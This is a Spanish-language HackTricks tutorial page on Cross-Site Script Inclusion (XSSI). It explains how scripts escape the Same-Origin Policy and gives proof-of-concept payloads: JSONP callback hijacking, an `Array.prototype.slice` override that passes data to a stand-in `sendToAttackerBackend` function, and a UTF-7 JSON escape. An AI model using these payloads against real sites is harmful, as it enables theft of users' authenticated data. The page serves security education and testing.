 # XSSI (Cross-Site Script Inclusion)

{{#include ../banners/hacktricks-training.md}}

## Información Básica

**Cross-Site Script Inclusion (XSSI)** es una vulnerabilidad que surge de la naturaleza de la etiqueta `script` en HTML. A diferencia de la mayoría de los recursos, que están sujetos a la **Same-Origin Policy (SOP)**, los scripts pueden ser incluidos desde diferentes dominios. Este comportamiento está destinado a facilitar el uso de bibliotecas y otros recursos alojados en diferentes servidores, pero también introduce un riesgo potencial de seguridad.

### Características Clave de **XSSI**:

- **Elusión de SOP**: Los scripts están exentos de la **Same-Origin Policy**, lo que les permite ser incluidos entre dominios.
- **Exposición de Datos**: Un atacante puede explotar este comportamiento para leer datos cargados a través de la etiqueta `script`.
- **Impacto en JavaScript/JSONP Dinámico**: **XSSI** es particularmente relevante para JavaScript dinámico o **JSON con Padding (JSONP)**. Estas tecnologías a menudo utilizan información de "autoridad ambiental" (como cookies) para la autenticación. Cuando se realiza una solicitud de script a un host diferente, estas credenciales (por ejemplo, cookies) se incluyen automáticamente en la solicitud.
- **Filtración de Token de Autenticación**: Si un atacante puede engañar al navegador de un usuario para que solicite un script de un servidor que controlan, podrían acceder a información sensible contenida en estas solicitudes.

### Tipos

1. **JavaScript Estático** - Este representa la forma convencional de XSSI.
2. **JavaScript Estático con Autenticación** - Este tipo es distinto porque requiere autenticación para acceder.
3. **JavaScript Dinámico** - Involucra JavaScript que genera contenido dinámicamente.
4. **No-JavaScript** - Se refiere a vulnerabilidades que no involucran JavaScript directamente.

**La siguiente información es un resumen de [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)**. Revísalo para más detalles.

### XSSI Regular

En este enfoque, la información privada está incrustada dentro de un archivo JavaScript accesible globalmente. Los atacantes pueden identificar estos archivos utilizando métodos como lectura de archivos, búsquedas de palabras clave o expresiones regulares. Una vez localizados, el script que contiene información privada puede ser incluido en contenido malicioso, permitiendo el acceso no autorizado a datos sensibles. A continuación se muestra una técnica de explotación de ejemplo:
```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script>
alert(JSON.stringify(confidential_keys[0]))
</script>
```
### Dynamic-JavaScript-based-XSSI y Authenticated-JavaScript-XSSI

Estos tipos de ataques XSSI implican que información confidencial se añade dinámicamente al script en respuesta a la solicitud de un usuario. La detección se puede realizar enviando solicitudes con y sin cookies y comparando las respuestas. Si la información difiere, puede indicar la presencia de información confidencial. Este proceso se puede automatizar utilizando herramientas como la extensión Burp [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS).

Si los datos confidenciales se almacenan en una variable global, se pueden explotar utilizando métodos similares a los utilizados en XSSI Regular. Sin embargo, si los datos confidenciales se incluyen en una respuesta JSONP, los atacantes pueden secuestrar la función de callback para recuperar la información. Esto se puede hacer manipulando objetos globales o configurando una función para ser ejecutada por la respuesta JSONP, como se demuestra a continuación:
```html
<script>
var angular = function () {
return 1
}
angular.callbacks = function () {
return 1
}
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked))
}
</script>
<script
src="https://site.tld/p?jsonp=angular.callbacks._7"
type="text/javascript"></script>
```

```html
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked))
}
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
Para variables que no residen en el espacio de nombres global, _prototype tampering_ a veces puede ser explotado. Esta técnica aprovecha el diseño de JavaScript, donde la interpretación del código implica recorrer la cadena de prototipos para localizar la propiedad llamada. Al anular ciertas funciones, como `Array`'s `slice`, los atacantes pueden acceder y filtrar variables no globales:
```javascript
Array.prototype.slice = function () {
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this)
}
```
Más detalles sobre los vectores de ataque se pueden encontrar en el trabajo del investigador de seguridad [Sebastian Lekies](https://twitter.com/slekies), quien mantiene una lista de [vectores](http://sebastian-lekies.de/leak/).

### Non-Script-XSSI

La investigación de Takeshi Terada introduce otra forma de XSSI, donde archivos Non-Script, como CSV, son filtrados entre orígenes al ser incluidos como fuentes en una etiqueta `script`. Instancias históricas de XSSI, como el ataque de Jeremiah Grossman en 2006 para leer una libreta de direcciones completa de Google y la filtración de datos JSON de Joe Walker en 2007, destacan la gravedad de estas amenazas. Además, Gareth Heyes describe una variante de ataque que involucra JSON codificado en UTF-7 para escapar del formato JSON y ejecutar scripts, efectiva en ciertos navegadores:
```javascript
;[
{
friend: "luke",
email:
"+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-",
},
]
```

```html
<script
src="http://site.tld/json-utf7.json"
type="text/javascript"
charset="UTF-7"></script>
```
{{#include ../banners/hacktricks-training.md}}
